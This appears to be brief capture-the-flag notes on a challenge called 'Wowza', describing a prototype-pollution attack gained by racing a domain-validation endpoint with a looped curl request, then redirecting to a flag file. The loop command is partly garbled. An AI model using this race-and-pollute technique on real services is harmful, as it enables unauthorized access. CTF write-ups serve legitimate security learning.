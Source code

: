 # Wowza

- Prootype pollution if we can control the domain. 
    - Race condition in promises in validate, submit multiple times simultaneously and get a domain with '__proto__' verified
    ```
    while true; do curl -i -s -k -X $'POST'  
    -H $'Host: wowza.pwni.ng:38476' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0' -H $'Accept: */*' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://wowza.pwni.ng:38476/' -H $'Content-Type: application/json' -H $'Content-Length: 29' -H $'Origin: http://wowza.pwni.ng:38476' -H $'Connection: close' \
    -b $'user_token=8a674962-c36b-4601-8853-94ae0a267bca' \
    --data-binary $'{\"domain\":\"hax.perfect.blue\"}' \
    $'http://wowza.pwni.ng:38476/site/validate' & ; don
    ```

- With a verified prototype pollution domain, set the isStale and 302 to /flag.txt 
